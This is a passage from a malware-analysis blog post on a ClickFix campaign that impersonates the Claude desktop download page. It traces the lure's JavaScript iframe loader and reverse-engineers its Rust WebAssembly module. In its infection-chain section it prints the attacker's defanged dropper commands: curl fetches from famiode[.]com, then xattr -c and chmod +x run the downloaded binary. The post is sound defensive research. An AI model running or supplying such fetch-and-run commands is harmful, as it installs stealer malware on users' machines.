# WebAssembly Was Never Built for Secrets: Extracting C2 Configs For Fun
---

# Executive Summary

The Paranoids FIRE (Forensic and Incident Response Operations) team recently identified an Amatera stealer campaign that leveraged an unconventional cross-platform loader methodology, delivered via a ClickFix social engineering lure targeting users searching for the Claude AI desktop application. The lure page was a near-perfect clone of the official Anthropic Claude download site, visually indistinguishable from the legitimate Anthropic webpage. While this infrastructure was part of a broader malware infection chain, the delivery mechanism was interesting enough to warrant a deeper dive, which is what we will focus on in this post.

The initial lure was hosted on a threat-actor-controlled Squarespace website `claude-cowork-desktop[.]squarespace[.]com`, enticing user interaction via malvertising. This page injected a heavily obfuscated JavaScript loader that cleared the DOM, obtained clipboard-write access, and silently loaded a full-screen iframe pointing to a Cloudflare Pages staging server `new-csopcx4p6l-cw[.]pages[.]dev`. This staging page hosted a [SingleFile](https://www.getsinglefile.com/) clone of `claude[.]com/download`, along with three supporting components: a modal overlay script (**`modal.js`**), a WebAssembly orchestration layer (**`connector.js`**), and a compiled Rust WebAssembly binary (**`connector_bg.wasm`**) containing the core malicious logic.

  
*Figure 001 – malvertising leads a user to `claude-cowork-desktop[.]squarespace[.]com`*

If a user clicked the "**macOS**" download button, an installation pop-up would appear with instructions on how to open the Terminal application while the dropper command was inserted into the box below the “**Copy the command**” instruction. 

Thus far, this is a well-documented infection methodology, as extensively covered by prior research from [PushSecurity](https://pushsecurity.com/blog/installfix/) & [Palo Alto](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/) to name a few. The implementation of compiled WebAssembly (WASM) as an obfuscation method was just interesting enough for FIRE to dive deeper into.

The sample FIRE examined targeted macOS users with a unique “**cowork**” campaign; further investigation into the WASM binary structure identified 15 unique campaigns with varying Windows & macOS targets, with lures aimed at AI users, developers, and cryptocurrency traders. The shared infrastructure, identical AES key derivation logic, and consistent build conventions across all campaigns indicate a Malware-as-a-Service (MaaS) offering. The "**cowork**" campaign was one of several active variants at the time of this investigation.

# Infection Chain

FIRE observed the dropper command (`curl -LfskS hxxps[://]famiode[.]com/curl/d5d9f727aa884478a5121bf9032f773ed3942fb1a5afe8d687c9ec9b9b041211`) execute on a macOS system via parent process `zsh`, establishing a connection to **famiode**[.]**com** over Cloudflare-fronted infrastructure and downloading a gzip-compressed shell script (Stage 1, SHA256: **6a6550c410a28b0f53947fb4654142ff4a77235748caed58b7ef4914362f6a70**). 

This script decoded and gunzipped its embedded payload, which spawned a child `curl` command (`curl -o /tmp/helper hxxps[://]famiode[.]com/claude/update`). 1 second later, the response body was written to `/tmp/helper` (Stage 2, SHA256: **00c17d7791fa38015ba38d91ccbcbe3a32b244590bdefda9c69e7b0be78f99bb**), identified as a Mach-O binary. The dropper stripped the macOS Gatekeeper quarantine attribute with `xattr -c` and made the binary executable with `chmod +x` before launching it 5 seconds later.


# Anatomy of the Lure

The responsible script was inserted at the bottom of the Squarespace headers within the `<head>` section of **claude-cowork-desktop[.]squarespace[.]com**.

  
*Figure 002 – HTML `<head>` section of `claude-cowork-desktop[.]squarespace[.]com`*

After chunk re-ordering, reversing the order of the first blob, and some XOR rotations, the following script executes on the page. Reference [deobfuscate_iframe.py](#1-deobfuscate-iframe-logic) to verify the deobfuscation.

  
*Figure 003 – JavaScript that executes on `claude-cowork-desktop[.]squarespace[.]com`*

This deobfuscated script will clear the original page from the DOM & inject a fullscreen iframe of `new-csopcx4p6l-cw[.]pages[.]dev`, which appears visually identical to the page it replaced. Although the initial GET request to `claude-cowork-desktop[.]squarespace[.]com` contains this script, the loader wipes it from the DOM when overwriting the contents of `claude-cowork-desktop[.]squarespace[.]com` with `new-csopcx4p6l-cw[.]pages[.]dev`. Its prior activity is instead confirmed by the presence of a persistent iframe at the base of the DOM structure.

  
*Figure 004 – iframe still present on `claude-cowork-desktop[.]squarespace[.]com`*

With the iframe for `new-csopcx4p6l-cw[.]pages[.]dev` came 3 dependencies hosted on this domain alongside `index.html`: 

* `/modal.js`  
* `/connector.js`  
* `/connector_bg.wasm`

The script `modal.js` facilitates the ClickFix lure itself, building the pop-up box & SVG styles to display to a user. Initially, this script prepares legitimate Claude installation commands, defined in the **`FALLBACK`** variable:

  
*Figure 005 – FALLBACK variable in `new-csopcx4p6l-cw[.]pages[.]dev/modal.js`*

This variable is appropriately named as the code uses it as the secondary values for variable **`cmd`**, which should contain the malicious commands for copy/pasting.

  
*Figure 006 – FALLBACK variable being called in `modal.js`*

The primary value **`cachedCommands`** contains the malicious code. This script passes the hardcoded campaign tracking ID “**cowork**” into function `wasmGetCommands()` alongside the value of “**platform**” (“*macos*” in our sample).

  
*Figure 007 – invocation of `wasmGetCommands` in `modal.js`*

`wasmGetCommands()` is derived from `get_commands()`, the function exported by `connector.js`. 

  
*Figure 008 – exported function in `connector.js`*

Note that 2 values (`offer, platform`) are passed into `get_commands()` within `connector.js`, but these 2 values are then inflated to 4 integer values when finally passed to the WebAssembly module via `wasm.get_commands()` on line 13. This will be relevant later.

This function pulls data from the compiled WebAssembly file `connector_bg.wasm`. Let’s tackle that next.

# Deobfuscating the WebAssembly Payload

First, some history: [WebAssembly](https://webassembly.org/) (WASM) is a fairly new player in the web ecosystem, seeing use on [0.35% of desktop sites in 2025](https://almanac.httparchive.org/en/2025/webassembly) according to the HTTP Archive. The WASM format was designed to provide near-native performance in browsers, allowing developers to compile C, C++, Rust, and other low-level languages into a portable binary format for JavaScript to interface with. Because WASM is a binary structure rather than an interpreted language, it often gets overlooked for being “too low-level” and thus not worth the effort.

A quick `grep` against the **`connector_bg.wasm`** sample suggests it was compiled from Rust as full Rust library names can be recovered. 

```shell
grep -aE 'rustc?|\.rs|\.cargo' samples/connector_bg.wasm
```

  
*Figure 009 – `grep` output showing multiple matches for Rust-like keywords*

The [wabt](https://github.com/WebAssembly/wabt) toolkit was paramount in FIRE’s initial triage of the **`connector_bg.wasm`** sample. The WASM-related tools referenced in the rest of this post all came from this toolkit.

## Object Dump Examination

```shell
wasm-objdump -x samples/connector_bg.wasm
```

The `wasm-objdump` binary provides a very familiar `objdump`-like output, allowing us to identify exported functions, including a familiar name: **`get_commands`**.

  
*Figure 010 – `wasm-objdump` output showing `get_commands` in the exports table*

Another curious finding from `wasm-objdump -x` is a custom attribute at the very end of the output:

```shell
Custom:
 - name: "producers"
```

[WASM documentation](https://webassembly.github.io/spec/core/appendix/custom.html) specifies a dedicated *custom section* exists to contain metadata or annotations about a given WASM file. 

```shell
wasm-objdump -h samples/connector_bg.wasm
```

Switching from the `-x` flag to `-h` will display only information about headers in the structure:

  
*Figure 011 – `wasm-objdump` output showing header metadata, including the size of the “producers” section*

Interesting! The “**producers**” custom section is 48 bytes long, so there must be something stored there. 

```shell
wasm-objdump -s --section=producers samples/connector_bg.wasm
```

The `-s` flag dumps raw section contents and the `--section` flag narrows that output to only the named section we are interested in:

  
*Figure 012 – `wasm-objdump` output showing the value stored in the “producers” custom section*

Walrus is a Rust-based WebAssembly transformation library. A static version number of **walrus** here helps us narrow in on a timestamp for initial compilation of this WASM module as [**walrus** 0.25.2](https://github.com/wasm-bindgen/walrus/releases/tag/0.25.2) & [**wasm-bindgen** 0.2.114](https://github.com/wasm-bindgen/wasm-bindgen/releases/tag/0.2.114) with commit hash *22cfd5568* were simultaneously released on 02/27/2026. We can use this date to anchor any references to the WASM specification to the closest timestamped commit within [WebAssembly/spec](https://github.com/WebAssembly/spec/tree/d2cb595c7b02e3ab0703eed3934fe57f95d78ddd/specification/wasm-latest) repository (02/26/2026) when we walk through the WASM syntax later on.

## Entry-Point Examination

Alongside the binary format, WASM supports a textual format of modules by building the abstract syntax of the binary into S-expressions. The wabt toolkit comes with `wasm2wat`, which converts the binary structure into its textual representation.

```shell
wasm2wat --enable-all --generate-names samples/connector_bg.wasm -o connector.wat
```

All that means for us is: we can now grep a flat text **`.wat`** file instead. 

Some housekeeping notes before we dive into the WAT syntax:

* [WASM is a stack machine](https://webassembly.github.io/spec/core/syntax/instructions.html#instructions). If we have two function calls one after the other, the second will consume the output from the first as input, if it accepts input.  
* [WASM is heavily typed](https://webassembly.github.io/spec/core/appendix/index-types.html). We never have to assume the type of an object, as every one is defined *somewhere* in the code.   
* [WASM does *not* have a **pointer** type](https://webassembly.github.io/spec/core/intro/overview.html#concepts) so when working with memory addressing, WASM will always represent these as integers (either `i32` or `i64`) so context around how the integer is consumed will indicate if the integer represents a pointer in memory.  
* This sample was compiled from Rust into WASM. Most of the WAT syntax can be inferred easily from WASM’s specification, however some instructions require a base understanding of the LLVM/rustc compiler in how it interprets & handles stack pointers.

Since we know our entry point is **`get_commands()`**, we will start there.

Recall from *Figure 008* that `get_commands()` accepted 2 string values for the keys “**offer**” (value=**cowork**) & “**platform**” (value=**macos**), then split each into 2 integers: the pointer to each value & the length of each value. This conversion was important as they now functionally represent [Rust `&str` strings](https://doc.rust-lang.org/std/primitive.str.html), more commonly known as *string slices*. 

Let’s walk through the instructions to understand what the function does:

```shell
(func $get_commands (type $t13) (param $p0 i32) (param $p1 i32) (param $p2 i32) (param $p3 i32) (result i32)
    (local $l4 i32)         ;; local var $l4 = type 32-bit integer
    global.get $g0          ;; mem[1048576]
    i32.const 256           ;; const 256
    i32.sub                 ;; 1048576 - 256 = 1048320
    local.tee $l4           ;; set $l4 = 1048320, keep 1048320 on stack
    global.set $g0          ;; set $g0 = 1048320
    local.get $l4           ;; retrieve 1048320
    i32.const 0             ;; const 0
    i32.store8 offset=248   ;; mem[1048568] = 0  (1-byte flag)
    local.get $l4           ;; retrieve 1048320
    local.get $p3           ;; len of string2 "macos"
    i32.store offset=244    ;; mem[1048564] = p3
    local.get $l4           ;; retrieve 1048320
    local.get $p2           ;; ptr to string2 "macos"
    i32.store offset=240    ;; mem[1048560] = p2
    local.get $l4           ;; mem[1048320]
    local.get $p1           ;; len of string1 "cowork"
    i32.store offset=236    ;; mem[1048556] = p1
    local.get $l4           ;; mem[1048320]
    local.get $p0           ;; ptr to string1 "cowork"
    i32.store offset=232    ;; mem[1048552] = p0
    local.get $l4           ;; mem[1048320]
    i32.const 8             ;; const 8
    i32.add                 ;; 1048320 + 8 = 1048328  (ptr 8 bytes into frame)
    call $f461              ;; f461(1048328) -> i32, push result onto stack
    call $f873              ;; f873(result) -> i32, push result onto stack
    local.set $p3           ;; set $p3 = result (reuses LOCALS[3] as scratch)
    local.get $l4           ;; mem[1048320]
    i32.const 256           ;; const 256
    i32.add                 ;; 1048320 + 256 = 1048576  (restore frame)
    global.set $g0          ;; set $g0 = 1048576 (pop 256-byte frame)
    local.get $p3)          ;; return result
```

The majority of this function’s logic serves to store the “**macos**” & “**cowork**” strings into effective virtual addresses to be accessed later by other functions. Note that towards the bottom there are two function calls: `$f461` & `$f873`. 

## Function 461: Copying Byte Slices

Let’s take a closer look at `$f461` to determine what is passed back to its caller. As WASM is a stack machine, we know that the parameter `$p0` will be integer **1048328**, the last value pushed onto the stack before the function call.

```shell
  (func $f461 (type $t4) (param $p0 i32) (result i32)
    (local $l1 i32)         ;; local var $l1 = type 32-bit integer
    global.get $g0          ;; mem[1048320]
    i32.const 256           ;; const 256
    i32.sub                 ;; 1048320 - 256 = 1048064
    local.tee $l1           ;; set $l1 = 1048064, keep 1048064 on stack
    global.set $g0          ;; set $g0 = 1048064
    local.get $l1           ;; mem[1048064]
    i64.const 1             ;; const 1
    i64.store               ;; mem[1048064..1048071] = 1 <- async state
    block $B0
      i32.const 248         ;; const 248
      i32.eqz               ;; 248 = 0? (false)
      br_if $B0             ;; if true, jmp to end of block
      local.get $l1         ;; mem[1048064]
      i32.const 8           ;; const 8
      i32.add               ;; 1048064 + 8 = 1048072, dst address start
      local.get $p0         ;; p0 = 1048328,  src address start
      i32.const 248         ;; const 248, length of bytes
      memory.copy           ;; pops (dst, src, len); copying 248 bytes
    end                     ;; block ends when all 248 bytes are copied
    local.get $l1           ;; mem[1048064]
    i32.const 1055052       ;; const 1055052
    call $f784              ;; f784(1048064, 1055052)
    local.set $p0           ;; set $p0 = Promise heap index
    local.get $l1           ;; mem[1048064]
    call $f667              ;; f667(1048064)
    local.get $l1           ;; mem[1048064]
    i32.const 256           ;; const 256
    i32.add                 ;; 1048064 + 256 = 1048320  (restore)
    global.set $g0          ;; set $g0 = 1048320  (pop this frame)
    local.get $p0)          ;; return Promise heap index
```

Essentially, function `$f461` takes the 248 bytes (recall that `$f461` was called with an input value 8 bytes *into* the 256 byte frame) where the 2 string slices were stored & copies them into this function’s own frame in a single bulk `memory.copy`. It then calls `$f784(1048064, 1055052)` so we must go another function deeper to retrieve its return value.

## Function 784: Pass-Through to JavaScript

```shell
  (func $f784 (type $t7) (param $p0 i32) (param $p1 i32) (result i32)
    local.get $p0     ;; 1048064 -> connector.js arg0
    local.get $p1     ;; 1055052 -> connector.js arg1
    call $./connector_bg.js.__wbg_new_typed_aaaeaf29cf802876
    call $f875)
```

Function `$f784` will pass its two input values directly to `__wbg_new_typed_aaaeaf29cf802876` from `connector_bg.js` before passing *its* returned value to `$f875`. 

## Function new_typed: The Asynchronous Promise

The integers (*1048064, 1055052*) passed into this `new_typed` JS function are two words of a [Rust fat pointer](https://doc.rust-lang.org/std/primitive.pointer.html), which basically means a pointer with a dynamically sized type. The first integer *1048064* represents the data pointer to the “**offer**” & “**platform**” strings. The second integer *1055052* (defined in `$f461` as a constant) represents a fixed address inside **.rodata**, which is a static vtable/descriptor to explain how to handle this future type; the integer is defined as a static constant at compilation time when `walrus` converted the original Rust into the compiled WASM we are examining.

In our sample, the integer *1055052* represents a [vtable](https://www.atharvapandey.com/post/rust/rust-internals-vtable/) (virtual table), or essentially a table of function pointers used for dynamic dispatch.

```javascript
__wbg_new_typed_aaaeaf29cf802876: function(arg0, arg1) {
	try {
		var state0 = {a: arg0, b: arg1}; // stash both ints
		var cb0 = (arg0, arg1) => {
			const a = state0.a; // a=1048064 so state0.a is reusable
			state0.a = 0;       // reentrancy guard for async
			try {
				return __wasm_bindgen_func_elem_874(a, state0.b, arg0, arg1); // func_elem_874(1048064, 1055052, resolve, reject)
			} finally {
				state0.a = a;
			}
		};
		const ret = new Promise(cb0); // async object reserved
		return addHeapObject(ret); // return Promise object!
	} finally {
		state0.a = state0.b = 0;
	}
},
```

Within `__wbg_new_typed_aaaeaf29cf802876`, an inner arrow function `cb0()` is instantiated. A few lines below, we can see the `cb0` object is passed into `Promise`, a [global JavaScript object](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise) representing the completion or failure of asynchronous operations. This clues us into the values of `arg0` & `arg1` that are passed by `cb0` into `__wasm_bindgen_func_elem_874` to return a value. On creation of a `new Promise()` object, the constructor immediately calls `executor(resolve, reject)`, which effectively binds `cb0`’s parameters as `arg0 = resolve` & `arg1 = reject`.

Within the JS is a wrapper for the WASM function of the same name, which is where our 4 values are passed *first*:

```javascript
function __wasm_bindgen_func_elem_874(arg0, arg1, arg2, arg3) {
    wasm.__wasm_bindgen_func_elem_874(arg0, arg1, addHeapObject(arg2), addHeapObject(arg3));
}

...

function addHeapObject(obj) {
    if (heap_next === heap.length) heap.push(heap.length + 1);
    const idx = heap_next;
    heap_next = heap[idx];

    heap[idx] = obj;
    return idx;
}
```

All this function does is pass the `resolve` & `reject` objects through function `addHeapObject`, which stores them in the JavaScript-side object table & returns their indexes as handles, effectively preparing their locations as 32-bit integers.

## Function “874”: Setup for Asynchronous Execution

Heading back into the WASM, we next peer into `$__wasm_bindgen_func_elem_874(1048064, 1055052, resolve handle, reject handle)`.

```shell
 (func $__wasm_bindgen_func_elem_874 (type $t12) (param $p0 i32) (param $p1 i32) (param $p2 i32) (param $p3 i32)
    block $B0
      local.get $p0                ;; mem[1048064]
      br_if $B0                    ;; if p0 != 0, skip the panic below
      i32.const 1078236            ;; pointer to message for panic
      i32.const 50                 ;; length of message to pass through
      call $f822                   ;; panic/abort
      unreachable
    end
    local.get $p0                  ;; mem[1048064], data ptr
    local.get $p2                  ;; resolve handle
    local.get $p3                  ;; reject handle
    local.get $p1                  ;; vtable ptr 1055052
    i32.load offset=16             ;; mem[1055052+16] = mem[1055068], fn-table index
    call_indirect $T0 (type $t9))  ;; call table[index](p0, p2, p3)
```

The function call to `$f822` is for error/panic handling. If we follow it through the WASM, we’ll find that `$f822` passes its parameters to `$f854`. Function `$f854` passes them to the JavaScript function `$./connector_bg.js.__wbg___wbindgen_throw_6ddd609b62940d55`. This function will `throw new Error(getStringFromWasm0(arg0, arg1));` with the string “*closure invoked recursively or after being dropped*”, which is exactly 50 bytes long — matching the length pushed onto the stack before the call. Ultimately, we can ignore that call chain as expected error handling.

The final instruction piques the most interest: [*call_indirect*](https://github.com/WebAssembly/spec/blob/d2cb595c7b02e3ab0703eed3934fe57f95d78ddd/specification/wasm-1.0/6-typing.spectec#L200) will invoke a function at runtime whereas *call* will invoke a function based on a static index baked into the instruction. The indirect call invokes table `$T0`, which is defined as `(table $T0 144 144 funcref)` with type `$t9` (expects 3 i32 values). A Rust trait-object/closure method pointer cannot be a code address, so the vtable stores a table index, and the call is dispatched through `call_indirect $T0` with a runtime type check. 

## Finding The Virtual Table

As a reminder, a [vtable](https://www.atharvapandey.com/post/rust/rust-internals-vtable/) is a table of function pointers for dynamic dispatch – essentially, picking which concrete function to call at runtime when the concrete type is hidden behind an interface. In order to find the indexed function invoked by `call_indirect`, we need to find the vtable entry.

First, we convert the vtable pointer integer **1055052** into hex to represent the location in linear memory: **0x10194C**. We know this to be a pointer into the Data section of the WASM, so we can use `wasm-objdump` to dump only the Data section, then scroll until we find the address we’re looking for.

```shell
wasm-objdump -x -j Data samples/connector_bg.wasm
```

With the context that we are looking at a Rust trait-object vtable, we know what the first 3 entries are immediately, as these are the minimum for a valid vtable: `drop_in_place`, `size`, `align`. Since the load instruction had an offset of 16 (`i32.load offset=16`), we divide 16 by 4 (4 bytes per word). For this load to be valid, words `0,1,2,3,4` must all exist, thus we read the first 5 entries.  
  
*Figure 013 – `wasm-objdump` output showing vtable embedded into the Data section*

Since WASM stores integers in little-endian, we need to reverse the order of each word then convert them into decimal.

| Offset | Original Bytes | Big Endian | Decimal | Use |
| :---- | :---- | :---- | :---- | :---- |
| +0 | 1a00 0000 | 0x0000001a | 26 | [drop_in_place](https://doc.rust-lang.org/std/ptr/fn.drop_in_place.html) / destructor |
| +4 | 0001 0000 | 0x00000100 | 256 | size |
| +8 | 0800 0000 | 0x00000008 | 8 | align |
| +12 | 1b00 0000 | 0x0000001b | 27 | method slot |
| +16 | 1c00 0000 | 0x0000001c | 28 | method that this code calls |

As the load instruction specified an offset of +16, the index value it pulls from this vtable is **28**. This index location is applied to the WASM `elem $e0` section, which initializes the function table `$T0` with indices pointing to the corresponding functions. The entries are delimited by spaces, so we can find the function at index 28 by replacing spaces with new lines:  
  
*Figure 014 – list of `Elem` function names, showing `$f392` appears at index 28*

Now, we press onward to the function call `$f392(1048064, resolve handle, reject handle)`.

## Function 392: Setup for Asynchronous Execution (For Real This Time)

```shell
 (func $f392 (type $t9) (param $p0 i32) (param $p1 i32) (param $p2 i32)
    (local $l3 i32)         ;; local var $l3 = type 32-bit integer
    global.get $g0          ;; mem[1048064] caller shadow-stack ptr
    i32.const 768           ;; const 768
    i32.sub                 ;; 1048064-768 = 1047296
    local.tee $l3           ;; l3 = 1047296, keep 1047296 on stack
    global.set $g0          ;; g0 = 1047296, allocate 768-byte frame
    block $B0
      i32.const 256         ;; const 256
      i32.eqz               ;; 256=0? false
      br_if $B0             ;; break if true
      local.get $l3         ;; mem[1047296], dst address start
      local.get $p0         ;; p0 = 1048064, src address start
      i32.const 256         ;; byte count
      memory.copy           ;; mem[1047296..1047551] <- mem[1048064..1048319]
				 ;; copy 256-byte future state into this frame
    end
    local.get $p0           ;; p0 = 1048064 (original future state)
    i64.const 0
    i64.store               ;; mem[1048064..1048071] = 0, zero original 8-byte discriminant
    local.get $l3           ;; l3 = 1047296, frame base
    i32.const 256
    i32.add                 ;; 1047296+256 = 1047552 (poll-context buffer)
    local.get $l3           ;; mem[1047296], frame base
    call $f548              ;; f548(1047552, 1047296): prep poll context
    local.get $l3           ;; mem[1047296], frame base
    i32.const 0
    i32.store8 offset=760   ;; mem[1047296+760] = mem[1048056] = 0 (1-byte flag)
    local.get $l3           ;; mem[1047296], frame base
    local.get $p2           ;; p2 = reject handle
    i32.store offset=756    ;; mem[1047296+756] = mem[1048052] = reject-handle
    local.get $l3           ;; mem[1047296], frame base
    local.get $p1           ;; p1 = resolve handle
    i32.store offset=752    ;; mem[1047296+752] = mem[1048048] = resolve-handle
    local.get $l3           ;; mem[1047296], frame base
    i32.const 256
    i32.add                 ;; 1047296+256 = 1047552 (poll-context buffer)
    call $f176              ;; f176(1047552), poll the future
    local.get $l3           ;; mem[1047296], frame base
    i32.const 768
    i32.add                 ;; 1047296+768 = 1048064, restore caller stack ptr
    global.set $g0)         ;; g0 = 1048064 (pop 768-byte frame)
```

This function will allocate a 768-byte frame & copy in the 256-byte state from `p0` into it, then zero out the original discriminant to mark it as taken/in-use. The function `$f548(1047552, 1047296)` will prepare a space for WASM’s asynchronous task-spawn routine, then function `$f176(1047552)` will handle the task-spawn routine itself. 

We will speed things up a bit to get to the juicy malware part, as the remaining nested functions hold little we haven’t already seen. 

1. `$f176` registers the future synchronous task and calls `$f787`.  
